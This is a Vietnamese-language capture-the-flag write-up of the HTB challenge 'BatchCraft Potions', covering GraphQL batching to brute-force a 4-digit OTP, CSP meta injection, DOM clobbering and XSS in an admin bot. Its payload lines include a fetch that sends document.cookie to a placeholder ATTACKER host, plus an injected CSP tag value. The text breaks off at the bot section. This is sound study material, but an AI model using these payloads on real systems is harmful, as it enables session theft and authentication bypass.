





# BatchCraft Potions (HTB Medium)
---
**Description:**

An underground potions shop has been selling potions to one of the wizard houses that helps them cheat on the annual magical contest of the houses. The potion shop has a vendor program, and we managed to steal the credentials "vendor53:PotionsFTW!" by casting a spy spell on one of the shop vendors. Unfortunately, the shop requires two-factor authentication, so we need you to break into the vendor account and uncover who is running this shop.

---

## Mô tả bài toán

Bài toán mô phỏng một **cửa hàng bán Potion** xây dựng trên nền tảng **Node.js (Express)** với **GraphQL**, **MySQL** và bot quản trị dùng **Puppeteer**. Người chơi cần vượt qua cơ chế xác thực **2 bước (2FA)** thông qua kỹ thuật **GraphQL Batching Attack**, sau đó lợi dụng chuỗi lỗ hổng **client-side** gồm **CSP Injection** và **DOM Clobbering** để thực thi **XSS** trên trình duyệt của admin bot, từ đó **exfiltrate JWT cookie** chứa flag.

---

## Table of Contents

- [I. Overview](#i-overview)
- [II. Kiến thức nền tảng](#ii-kiến-thức-nền-tảng)
  - [A. GraphQL Batching Attack](#a-graphql-batching-attack)
  - [B. DOM Clobbering](#b-dom-clobbering)
  - [C. CSP Manipulation](#c-csp-manipulation)
- [III. Phân tích mã nguồn](#iii-phân-tích-mã-nguồn)
  - [A. Kiến trúc tổng quan](#a-kiến-trúc-tổng-quan)
  - [B. Luồng xác thực (Authentication Flow)](#b-luồng-xác-thực-authentication-flow)
  - [C. Cơ chế OTP và JWT](#c-cơ-chế-otp-và-jwt)
  - [D. GraphQL Schema](#d-graphql-schema)
  - [E. Bộ lọc đầu vào (Sanitization)](#e-bộ-lọc-đầu-vào-sanitization)
  - [F. Trang product và XSS sink](#f-trang-product-và-xss-sink)
  - [G. Admin Bot](#g-admin-bot)
- [IV. Phân tích lỗ hổng](#iv-phân-tích-lỗ-hổng)
- [V. Khai thác (Exploitation)](#v-khai-thác-exploitation)
- [VI. Thảo luận](#vi-thảo-luận)

---

## I. Overview

Hệ thống là một trang web bán **Potions** (thuốc phép) theo chủ đề phù thủy. Ứng dụng cho phép:
- **Xem danh sách sản phẩm** đã được duyệt trên trang chủ
- **Đăng nhập** vào khu vực quản trị (vendor portal) với cơ chế **2FA**
- **Thêm sản phẩm mới** (potion) khi đã xác thực đầy đủ
- **Admin bot tự động truy cập preview** sản phẩm mới thêm để "duyệt"

### Mục tiêu

Flag được nhúng bên trong **payload của JWT** mà admin bot sử dụng làm session cookie. Mục tiêu cuối cùng là thực thi **XSS** trên trình duyệt của bot để đánh cắp cookie này, sau đó decode JWT để lấy flag.

---

## II. Kiến thức nền tảng

### A. GraphQL Batching Attack

`GraphQL` cho phép gửi **nhiều truy vấn (queries)** hoặc **mutations** trong một **HTTP request duy nhất** thông qua cơ chế gọi là **Query Batching**. Đây là tính năng được thiết kế để tối ưu hiệu năng, giảm số lượng HTTP roundtrip.

**Cách hoạt động với alias:**

```graphql
mutation {
  req0: verify2FA(otp: "0000") { token }
  req1: verify2FA(otp: "0001") { token }
  req2: verify2FA(otp: "0002") { token }
  # ... hàng ngàn mutation trong cùng 1 request
}
```

Mỗi alias (`req0`, `req1`, ...) đại diện cho một lần gọi mutation riêng biệt, nhưng tất cả được gói gọn trong **1 HTTP request duy nhất**. Đây là tính năng mặc định của `express-graphql` (package được sử dụng trong bài).

**Rủi ro bảo mật:**  
Ngay cả khi server **có cơ chế rate-limiting ở tầng network** (như Nginx `limit_req`), kẻ tấn công vẫn có thể:
- Gom **hàng ngàn mutation brute-force** vào một request duy nhất
- **Bypass hoàn toàn** rate-limit truyền thống — vì Nginx đếm **số HTTP request**, không biết bên trong chứa bao nhiêu GraphQL operation
- Vượt qua **WAF** (Web Application Firewall) vì chỉ có 1 request
- Chỉ cần rate-limit ở **cấp độ resolver** (đếm số mutation thực tế) mới chặn được

### B. DOM Clobbering

**DOM Clobbering** là kỹ thuật đưa **HTML markup** vào trang web để **ghi đè (clobber)** các **biến toàn cục (global variables)** trong JavaScript.

**Cơ chế kỹ thuật:**

Trình duyệt có hành vi tự động: mọi phần tử HTML có thuộc tính `id` hoặc `name` sẽ được đăng ký thành thuộc tính của đối tượng `window`. Ví dụ:

```html

```

Sau khi DOM parse, `window.myVar` sẽ trỏ tới phần tử `` này. Nếu có **nhiều phần tử** cùng `name`, trình duyệt sẽ tạo ra một **`HTMLCollection`** — một đối tượng giống mảng (array-like) chứa tất cả các phần tử đó.

```html


<!-- window.arr giờ là HTMLCollection [, ] -->
<!-- window.arr[0].src === "a.jpg", window.arr[1].src === "b.jpg" -->
```

Điều kiện cần:
- Mã JavaScript sử dụng một biến toàn cục mà **chưa được khởi tạo** (hoặc bị chặn khởi tạo)
- Kẻ tấn công có khả năng chèn HTML vào trang

### C. CSP Manipulation

**Content-Security-Policy (CSP)** là header bảo mật do server gửi để kiểm soát những resource nào được phép tải trên trang. Tuy nhiên, CSP cũng có thể được khai báo qua thẻ `<meta>` trong HTML:

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
```

**Điểm quan trọng:** Khi có nhiều CSP policy (từ header + từ meta tag), trình duyệt áp dụng **tất cả** chúng theo kiểu **intersection** — một script phải thỏa mãn **mọi policy** mới được thực thi. Nghĩa là nếu kẻ tấn công inject được thêm một thẻ `<meta http-equiv="Content-Security-Policy">` với policy khắt khe hơn, policy đó sẽ **thu hẹp** (không mở rộng) quyền của CSP gốc.

Ứng dụng thực tế: Kẻ tấn công có thể **chặn các script hợp lệ** của hệ thống bằng cách inject CSP policy chỉ cho phép một tập con nhỏ các script.

---

## III. Phân tích mã nguồn

### A. Kiến trúc tổng quan

```
web_batchcraft_potions/
├── config/
│   └── nginx.conf                  # Reverse proxy + rate-limiting (20r/m)
├── challenge/
│   ├── index.js                    # Entry point - khởi tạo Express app
│   ├── database.js                 # Kết nối MySQL, các hàm CRUD
│   ├── bot.js                      # Admin bot (Puppeteer) - chứa flag
│   ├── routes/
│   │   └── index.js                # Định nghĩa tất cả routes & API endpoints
│   ├── middleware/
│   │   └── AuthMiddleware.js       # Xác thực JWT, kiểm tra verified state
│   ├── helpers/
│   │   ├── JWTHelper.js            # Ký và xác minh JWT (HS256)
│   │   ├── OTPHelper.js            # Tạo & verify OTP 4 chữ số
│   │   ├── GraphqlHelper.js        # GraphQL schema (LoginUser, verify2FA)
│   │   └── FilterHelper.js         # DOMPurify sanitization (filterHTML, filterMeta)
│   ├── views/
│   │   ├── product.html            # Trang sản phẩm - chứa XSS sink
│   │   ├── login.html              # Trang đăng nhập
│   │   ├── 2fa.html                # Trang nhập OTP
│   │   └── dashboard.html          # Dashboard quản lý sản phẩm
│   └── static/js/
│       ├── global.js               # Định nghĩa window.potionTypes
│       ├── product.js              # Render hình ảnh potion - XSS sink
│       ├── login.js                # Gửi GraphQL mutation LoginUser
│       ├── 2fa.js                  # Gửi GraphQL mutation verify2FA
│       └── dashboard.js            # Form thêm sản phẩm mới
```

**Công nghệ sử dụng:**
- **Backend:** Express.js 4.18.1, express-graphql 0.12.0, MySQL
- **Reverse Proxy:** Nginx (rate-limiting, proxy pass)
- **Template engine:** Nunjucks 3.2.3 (autoescape bật mặc định)
- **Sanitization:** DOMPurify 2.3.6
- **Auth:** jsonwebtoken 8.5.1 (HS256), @otplib/preset-default 12.0.1
- **Bot:** Puppeteer 19.2.0 (Chromium headless)

**`config/nginx.conf` — Reverse Proxy và Rate-Limiting:**

```nginx
limit_req_zone global zone=global_rate_limit:5m rate=20r/m;
limit_req_status 429;

server {
    listen 80;
    server_name batchcraft-potions.htb;

    location /graphql {
        limit_req zone=global_rate_limit burst=5 nodelay;  # ← Rate-limit TẠI ĐÂY
        proxy_set_header  X-Forwarded-For $remote_addr;
        proxy_set_header  Host: $http_host;
        proxy_pass        http://127.0.0.1:1337;
    }

    location / {
        proxy_set_header  X-Forwarded-For $remote_addr;
        proxy_set_header  Host $http_host;
        proxy_pass        http://127.0.0.1:1337;
    }
}
```

Nginx được cấu hình làm **reverse proxy** trước Express app (port 1337). Điểm quan trọng:
- **`rate=20r/m`**: Cho phép tối đa **20 HTTP request/phút** trên zone `global_rate_limit` — đây là biện pháp chống brute-force
- **`burst=5 nodelay`**: Cho phép tối đa 5 request vượt ngưỡng được xử lý ngay (không queue), sau đó trả `429 Too Many Requests`
- Zone `global` dùng **1 zone chung** cho toàn bộ client (không phân biệt IP) — key là chuỗi cố định `global`, không phải `$binary_remote_addr`
- Rate-limit **chỉ áp dụng cho `/graphql`** — route `/` không bị giới hạn

**Tại sao rate-limit này bị bypass?**  
Rate-limit của Nginx đếm **số HTTP request**, không phải **số GraphQL operation** bên trong mỗi request. Với GraphQL alias batching, kẻ tấn công có thể nhét **1,000 mutations** vào **1 HTTP request** — Nginx chỉ đếm đó là 1 request. Với `rate=20r/m` + `burst=5`, ta có ~25 request trong phút đầu → gửi được **25,000 mutations** → dư sức quét hết 10,000 OTP.

Script `exploit.py` xử lý vấn đề này bằng cách `time.sleep(2)` giữa các batch và retry khi gặp `429`.

**`index.js` — Entry point:**

```javascript
const express       = require('express');
const app           = express();
const nunjucks      = require('nunjucks');
const routes        = require('./routes');
const Database      = require('./database');
global.db           = new Database();

nunjucks.configure('views', {
    autoescape: true,   // Nunjucks tự động escape HTML → chặn XSS thông thường
    express: app
});

app.use(routes());

(async () => {
    await global.db.connect();
    await global.db.migrate();   // Tạo user vendor53 với OTP secret ngẫu nhiên
    app.listen(1337, '0.0.0.0');
})();
```

Nunjucks bật `autoescape: true`, nghĩa là cú pháp `{{ variable }}` sẽ tự động HTML-encode. Tuy nhiên, ở `product.html` có dùng `{{ meta | safe }}` và `{{ product.product_desc | safe }}` — bỏ qua autoescape — đây là tiền đề cho injection.

### B. Luồng xác thực (Authentication Flow)

Hệ thống xác thực qua **2 bước**:

**Bước 1 — Login:**

User gửi username/password qua GraphQL mutation `LoginUser`. Nếu đúng, server trả về JWT có `verified: false`:

```javascript
// GraphqlHelper.js - LoginUser resolver
let token = await JWTHelper.sign({
    username: user[0].username,
    verified: false            // ← chưa xác thực 2FA
});
res.cookie('session', token, { maxAge: 3600000 });
```



**Bước 2 — Xác thực 2FA:**

User gửi mã OTP qua mutation `verify2FA`. Nếu đúng, server trả về JWT mới có `verified: true`:

```javascript
// GraphqlHelper.js - verify2FA resolver
if (await OTPHelper.verifyOTP(secret.otpkey, args.otp)) {
    let token = await JWTHelper.sign({
        username: req.user.username,
        verified: true          // ← đã xác thực đầy đủ
    });
    res.cookie('session', token, { maxAge: 3600000 });
}
```


**`AuthMiddleware.js` — Kiểm soát truy cập:**

```javascript
module.exports = async (req, res, next) => {
    try {
        if (req.cookies.session === undefined) {
            // Cho phép truy cập /graphql không cần cookie (để login)
            if (req.originalUrl === '/graphql') return next();
            // ...
        }
        return JWTHelper.verify(req.cookies.session)
            .then(user => {
                req.user = user;
                // Cho phép /graphql và /2fa dù chưa verified
                if (req.originalUrl === '/graphql' || req.originalUrl === '/2fa')
                    return next();
                // Các route khác: bắt buộc verified = true
                if (user.verified === false) return res.redirect('/login');
                return next();
            });
    } catch(e) {
        return res.redirect('/logout');
    }
}
```

Điểm đáng chú ý:
- Route `/graphql` luôn được **bypass** middleware (cho phép cả khi không có cookie hoặc chưa verified)
- Mutation `verify2FA` trong GraphQL resolver tự kiểm tra `req.user` nhưng **không có rate-limit ở cấp resolver** — Nginx có rate-limit ở tầng HTTP (xem mục Nginx bên dưới) nhưng bị GraphQL batching bypass

### C. Cơ chế OTP và JWT

**`OTPHelper.js`:**

```javascript
const { authenticator } = require('@otplib/preset-default');
authenticator.options = { digits: 4 };  // ← CHỈ 4 CHỮ SỐ!

const genSecret = () => authenticator.generateSecret();
const genPin    = (secret) => authenticator.generate(secret);
const verifyOTP = async (otpkey, otp) => {
    try {
        isValid = authenticator.check(otp, otpkey);
        return isValid;
    } catch (err) {
        return false;
    }
}
```

OTP chỉ có **4 chữ số** (0000-9999), tổng cộng **10,000 khả năng**. Dù Nginx có rate-limit (`rate=20r/m`), kỹ thuật GraphQL batching cho phép gửi hàng ngàn mutation trong một HTTP request duy nhất → không gian brute-force rất nhỏ và hoàn toàn khả thi.

**`JWTHelper.js`:**

```javascript
const crypto = require('crypto');
const jwt    = require('jsonwebtoken');
const SECRET = crypto.randomBytes(69).toString('hex');  // Secret ngẫu nhiên mỗi lần chạy

module.exports = {
    async sign(data)  { return jwt.sign(data, SECRET, { algorithm: 'HS256' }); },
    async verify(token) { return jwt.verify(token, SECRET, { algorithm: 'HS256' }); }
}
```

Secret là **69 bytes ngẫu nhiên** → không thể brute-force hay forge JWT. Ta buộc phải đánh cắp JWT từ bot.

**`database.js` — Khởi tạo dữ liệu:**

```javascript
async migrate() {
    let otpkey = OTPHelper.genSecret();  // Sinh OTP secret ngẫu nhiên
    let stmt = `INSERT IGNORE INTO users(username, password, otpkey, is_admin) VALUES(?, ?, ?, ?)`;
    this.connection.query(stmt, [
        'vendor53',          // Username đã biết
        'PotionsFTW!',       // Password đã biết
        otpkey,              // OTP secret - không biết
        0                    // Không phải admin
    ]);
}
```

Ta đã có credential `vendor53:PotionsFTW!` nhưng **không biết OTP secret** → cần brute-force OTP.

### D. GraphQL Schema

**`GraphqlHelper.js` — Phân tích chi tiết:**

```javascript
const mutationType = new GraphQLObjectType({
    name: 'Mutation',
    fields: {
        LoginUser: {
            type: ResponseType,
            args: {
                username: { type: new GraphQLNonNull(GraphQLString) },
                password: { type: new GraphQLNonNull(GraphQLString) }
            },
            resolve: async (root, args, {req, res}) => {
                return new Promise((resolve, reject) => {
                    db.loginUser(args.username, args.password)
                        .then(async (user) => {
                            if (user.length) {
                                let token = await JWTHelper.sign({
                                    username: user[0].username,
                                    verified: false
                                });
                                res.cookie('session', token, { maxAge: 3600000 });
                                resolve({
                                    message: "User logged in successfully!",
                                    token: token
                                });
                            };
                            reject(new Error("Username or password is invalid!"));
                        })
                        .catch(err => reject(new GraphQLError(err)));
                });
            }
        },
        verify2FA: {
            type: ResponseType,
            args: {
                otp: { type: new GraphQLNonNull(GraphQLString) }
            },
            resolve: async (root, args, {req, res}) => {
                if (!req.user)
                    return reject(new GraphQLError('Authentication required!'));

                return new Promise(async (resolve, reject) => {
                    secret = await db.getOTPKey(req.user.username);

                    if (await OTPHelper.verifyOTP(secret.otpkey, args.otp)) {
                        let token = await JWTHelper.sign({
                            username: req.user.username,
                            verified: true
                        });
                        res.cookie('session', token, { maxAge: 3600000 });
                        resolve({
                            message: "2FA verified successfully!",
                            token: token
                        });
                    }
                    else {
                        reject(new GraphQLError(new Error('Invalid OTP supplied!')));
                    }
                });
            }
        }
    }
});
```

**Lỗ hổng quan trọng ở `verify2FA`:**
1. **Không có rate-limit ở cấp resolver** — Nginx giới hạn 20 request/phút ở tầng HTTP, nhưng GraphQL batching đóng gói hàng ngàn mutation trong 1 request → Nginx chỉ đếm 1
2. **Không có account lockout** — không khóa tài khoản sau N lần sai
3. **Không có delay/cooldown** — không bắt đợi giữa các lần thử
4. Kết hợp với `express-graphql` cho phép batching → **toàn bộ 10,000 OTP có thể thử trong ~10 HTTP requests** (mỗi request 1,000 mutations, vẫn trong giới hạn `burst=5` nếu gửi cách nhau vài giây)

Lý do cho việc 1000 mutation / 1 request là bởi vì ngoài nginx cấu hình max body size là 1MB ra thì express js cũng có cài mặt định chỉ nhận request body size tối đa 100kb


**Routes — `routes/index.js`:**

```javascript
// GraphQL endpoint - dùng express-graphql, mặc định hỗ trợ batching
router.use('/graphql', AuthMiddleware, graphqlHTTP((req, res) => ({
    schema: GraphqlSchema,
    graphiql: false,
    context: {req, res}
})));

// API thêm sản phẩm - trigger bot preview
router.post('/api/products/add', AuthMiddleware, async (req, res) => {
    // Validation bằng Joi
    const { error, value } = schema.validate(req.body);
    if (error) return res.status(500).send(response(error.message));

    // filterHTML chỉ áp dụng cho product_desc
    value.product_desc = FilterHelper.filterHTML(value.product_desc);
    value.product_seller = req.user.username;
    value.product_approved = 0;    // Sản phẩm mới chưa duyệt

    await db.addPotion(value);
    let potion = await db.getAddedPotionID(req.user.username);

    // Bot tự động preview sản phẩm mới!
    adminReviewing = true;
    await bot.previewProduct(potion.id);
    adminReviewing = false;
});

// Route preview - KHÔNG kiểm tra product_approved
router.get('/products/preview/:id', async (req, res) => {
    const { id } = req.params;
    product = await db.getPotionByID(id);
    if (!product.id) return res.redirect('/');
    // Không kiểm tra product_approved → bot có thể xem sản phẩm chưa duyệt!

    let meta = FilterHelper.generateMeta(
        product.product_og_title,
        product.product_og_desc,
        product.product_keywords    // ← user input đi vào meta tags
    );
    return res.render('product.html', {meta, product});
});
```

Lưu ý sự khác biệt giữa `/products/:id` (kiểm tra `product_approved == 0` thì redirect) và `/products/preview/:id` (không kiểm tra). Bot sử dụng route `/products/preview/:id`, nên sản phẩm mới thêm (chưa duyệt) vẫn được bot render đầy đủ.

### E. Bộ lọc đầu vào (Sanitization)

**`FilterHelper.js` — Hai hàm lọc với mục đích khác nhau:**

```javascript
const createDOMPurify = require('dompurify');
const { JSDOM }       = require('jsdom');

// Lọc HTML trong product_desc — dùng DOMPurify
const filterHTML = (userHTML) => {
    window = new JSDOM('').window;
    DOMPurify = createDOMPurify(window);
    return DOMPurify.sanitize(userHTML, {
        ALLOWED_TAGS: ['strong', 'em', 'b', 'img', 'a', 's', 'ul', 'ol', 'li']
    });
}
```

`filterHTML` cho phép thẻ ``. DOMPurify mặc định cho phép các thuộc tính `name`, `id`, `src`, `class` trên các thẻ được allow → ta có thể inject ``.

```javascript
// Lọc meta tags trong product_keywords — cho phép <meta> và http-equiv!
const filterMeta = (metaHTML) => {
    window = new JSDOM('').window;
    DOMPurify = createDOMPurify(window);
    sanitized = DOMPurify.sanitize(metaHTML, {
        ALLOWED_TAGS: ['meta'],
        ALLOWED_ATTR: ['name', 'content', 'property', 'http-equiv'],
        WHOLE_DOCUMENT: true
    });
    return new JSDOM(sanitized).window.document.head.innerHTML;
}
```

`filterMeta` cho phép thẻ `<meta>` với thuộc tính `http-equiv` → ta có thể inject `<meta http-equiv="Content-Security-Policy" content="...">`.

```javascript
// Hàm sinh meta tags - nhận input từ user
const generateMeta = (title, description, keywords) => {
    return filterMeta(
    `
        <meta http-equiv="Content-Security-Policy" content="script-src 'self' 'unsafe-inline'">
        <meta property="og:title" content="${title}" />
        <meta property="og:description" content="${description}" />
        <meta name="keywords" content="${keywords}" />
    `);
}
```

**Lỗ hổng injection:** Biến `keywords` (từ `product_keywords`) được lắp trực tiếp vào chuỗi template literal. Nếu ta gửi `product_keywords` là:

```
"><meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-inline' http://127.0.0.1/static/js/jquery.min.js http://127.0.0.1/static/js/product.js">
```

Thì chuỗi truyền vào `filterMeta` sẽ chứa **2 thẻ CSP meta**: một của ứng dụng (cho phép `'self' 'unsafe-inline'`) và một do ta inject (chỉ cho phép `jquery.min.js` và `product.js`).

Sau khi `filterMeta` xử lý, cả hai thẻ `<meta http-equiv="Content-Security-Policy">` đều **pass qua** DOMPurify (vì `meta` và `http-equiv` đều nằm trong allowed list).

**Kết quả ở `product.html`:**

```html
<head>
    <!-- ... các meta, CSS ... -->
    {{ meta | safe }}
    <!-- meta | safe render cả 2 CSP meta tags không escape -->
</head>
<body>
    <!-- ... -->
    <script src="/static/js/jquery.min.js"></script>
    <script src="/static/vendors/rpgui/rpgui.min.js"></script>  <!-- ← BỊ CHẶN -->
    <script src="/static/js/global.js"></script>                 <!-- ← BỊ CHẶN -->
    <script src="/static/js/product.js"></script>
</body>
```

CSP inject của ta chỉ cho phép `jquery.min.js` và `product.js` → trình duyệt **chặn** `rpgui.min.js` và **đặc biệt là `global.js`** → biến `window.potionTypes` **không bao giờ được khởi tạo**.

### F. Trang product và XSS sink

**`static/js/global.js` — Định nghĩa potionTypes:**

```javascript
window.potionTypes = [
    { "id": 1, "name":"Snake Charm",   "src":"/static/images/snakecharm.jpg" },
    { "id": 2, "name":"Fairy Dust",    "src":"/static/images/fairydust.jpg" },
    { "id": 3, "name":"Gemini Stone",  "src":"/static/images/geministone.jpg" },
    { "id": 4, "name":"Fire Born",     "src":"/static/images/fireborn.jpg" },
    { "id": 5, "name":"Dragon Breath", "src":"/static/images/dragonbreath.jpg" },
    { "id": 6, "name":"Dark Spell",    "src":"/static/images/darkspell.jpg" }
]
```

Script này định nghĩa mảng `potionTypes` trên `window`, chứa thông tin (id, tên, đường dẫn ảnh) cho 6 loại potion. Khi `global.js` bị CSP chặn, biến này **undefined** trên window.

**`static/js/product.js` — XSS Sink:**

```javascript
$(document).ready(function(){
    loadPotionImage();
})

const loadPotionImage = () => {
    let product = $('.potion-item');

    for (i=0; i < potionTypes.length; i++) {
        if (product.data('category') == potionTypes[i].id) {
            product.prepend(`<p class='reset-pos rpgui-container framed-golden-2'>
                Potion Type: ${potionTypes[i].name}</p>`);
            product.prepend(``);
            //                         ^^^^^^^^^^^^^^^^^^^^
            //                         GIÁ TRỊ NÀY ĐƯỢC NỐI TRỰC TIẾP VÀO HTML!
        }
    }
}
```

Đoạn code này lặp qua mảng `potionTypes` và so sánh `id` với `data-category` của phần tử `.potion-item`. Khi khớp, nó **nối trực tiếp** `potionTypes[i].src` vào chuỗi HTML qua template literal rồi `prepend` vào DOM.

**Bình thường:** `potionTypes` được định nghĩa trong `global.js` với các giá trị an toàn (`/static/images/...`), nên không có vấn đề.

**Khi bị clobber:** Nếu `global.js` bị chặn bởi CSP, `window.potionTypes` chưa được định nghĩa. Kẻ tấn công có thể inject HTML trong `product_desc` (qua `filterHTML` cho phép `` với `name`):

```html


```

Trình duyệt tự động tạo `window.potionTypes` là một **HTMLCollection** chứa 2 phần tử `` này.

Khi `product.js` chạy:
1. `potionTypes.length` → `2` (HTMLCollection có 2 phần tử)
2. `potionTypes[0].id` → `"1"` (thuộc tính `id` của thẻ `` đầu tiên)
3. `product.data('category')` → `1` (ta set `product_category` là `1`)
4. So sánh `1 == "1"` → `true` (loose equality)
5. `potionTypes[0].src` → `"http://TARGET/products/preview/N#x'onerror=fetch('http://ATTACKER/?c='+document.cookie)//"`

Giá trị `.src` sẽ là **full URL** vì trình duyệt tự resolve thuộc tính `src` của ``. Phần sau `#` là fragment, bị giữ nguyên.

Code tạo ra HTML:

```html

```

Dấu `'` trong payload phá vỡ thuộc tính `src` → phần `onerror=...` trở thành event handler → **XSS thành công**.

### G. Admin Bot

**`bot.js` — Chứa flag:**

```javascript
const puppeteer = require('puppeteer');
